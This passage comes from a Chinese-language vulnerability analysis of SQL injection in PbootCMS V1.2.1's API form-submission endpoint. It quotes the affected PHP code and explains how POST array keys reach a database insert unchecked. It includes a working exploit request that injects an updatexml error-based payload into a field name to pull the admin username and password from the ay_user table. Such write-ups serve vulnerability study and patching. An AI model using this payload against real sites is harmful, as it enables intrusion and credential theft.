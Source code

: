 ```php
                    sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                }
                json(1, '表单提交成功！');
            } else {
                $this->log('API提交表单数据失败！');
                json(0, '表单提交失败！');
            }
        } else {
            json(0, '表单提交失败，请使用POST方式提交！');
        }
    }
```

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部 POST 内容，只匹配数据库的字段，相同才会拼接到 `$_data`数组

然后就会带入 `$this->model->addMessage(data)` 执行语句

文件：PbootCMS-V1.2.1\apps\api\model\CmsModel.php

函数：addMessage(


```php
// 新增留言
    public function addMessage($table, $data)
    {
        return parent::table('ay_message')->autoTime()->insert($data);
    }
```

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入

0x10.3 接口注入三

0x10.3.1 漏洞利用


```bash
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1

post:
    contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 123
```

![](images/15892009897909.png)


0x10.3.2 漏洞讲解


```php
// 表单提交  注入
    public function addform()
    {
        if ($_POST) {
            
            if (! $fcode = get('fcode', 'var')) {
                json(0, '传递的表单编码fcode有误！');
            }
            
            // 读取字段
            if (! $form = $this->model->getFormField($fcode)) {
                json(0, '接收表单不存在任何字段，请核对后重试！');
            }
            
            // 接收数据
            $mail_body = '';
```